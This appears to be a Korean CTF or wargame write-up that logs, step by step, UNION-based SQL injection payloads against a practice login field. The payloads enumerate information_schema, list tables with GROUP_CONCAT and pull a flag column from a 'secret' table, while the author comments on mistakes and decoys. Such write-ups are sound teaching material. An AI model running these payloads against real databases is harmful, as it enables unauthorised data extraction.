 ```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,table_name FROM information_schema.tables--
```
> 어디서 놓친게 있나 생각해봐도 없는데 information_schema.tables에 where 조건문을 안쓰면 테이블이 왕창 나온다는 것을 기억하고 확인해보니 CHARACTER_SETS 테이블이 있는 것을 확인

<img width="1171" alt="Image" src="https://github.com/user-attachments/assets/9ed76ed7-ada8-4001-a22e-eeaada16c9aa" />

### ❗ 여기서부터 삽질의 하이라이트

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,column_name FROM information_schema.columns WHERE table_name='CHARACTER_SETS'--
```
> CHARACTER_SET_NAME 컬럼 발견
<img width="1127" alt="Image" src="https://github.com/user-attachments/assets/f1c5eed3-1c11-4373-b2bd-e7adeac12530" />

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,CHARACTER_SET_NAME FROM CHARACTER_SETS-- 
```
> 이렇게 했더니 안나온다 왜?!?!?!?!?!?!?

`doldol' AND 1=0 UNION SELECT 1,2,3,4,5,user()-- `
> 이게 또 database()만 있는게 아니구나 
<img width="1157" alt="Image" src="https://github.com/user-attachments/assets/f5eab93f-3b99-4071-bbb9-8843a1f0b798" />

```sql
doldol' and '1'='0' UNION SELECT 1,2,3,4,5,table_name FROM information_schema.tables LIMIT 1,1-- 
```
> information_schema.tables 에서 하나만 나온다는게 Limit 가 걸려있다는 거였는데 너무 늦게 알았다..

<img width="1138" alt="Image" src="https://github.com/user-attachments/assets/a84caa94-4b7f-438d-9ca9-bfce2e48b644" />


### 정신 차린 구간 

```sql
doldol' AND '1'='0' UNION SELECT 1,2,3,4,5,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'--
```
> flag_honey 테이블 말고도 game_user,secret 존재한다는 것을 확인 
<img width="1141" alt="Image" src="https://github.com/user-attachments/assets/31aa482f-907e-410d-aed4-0b3b285b1627" />

```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,column_name FROM information_schema.columns WHERE table_name='secret'-- 
```
> 수상해보이는 sceret 테이블에서 flag 컬럼을 확인했습니다.
<img width="1145" alt="Image" src="https://github.com/user-attachments/assets/32a7d3b5-0ca0-4439-a0b6-ed436da71030" />

```sql	
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,flag FROM secret-- 
```
> 하핳하.. 또 속았다. 
<img width="1130" alt="Image" src="https://github.com/user-attachments/assets/897b0be2-2878-45b1-86c6-a6fde2647e87" />
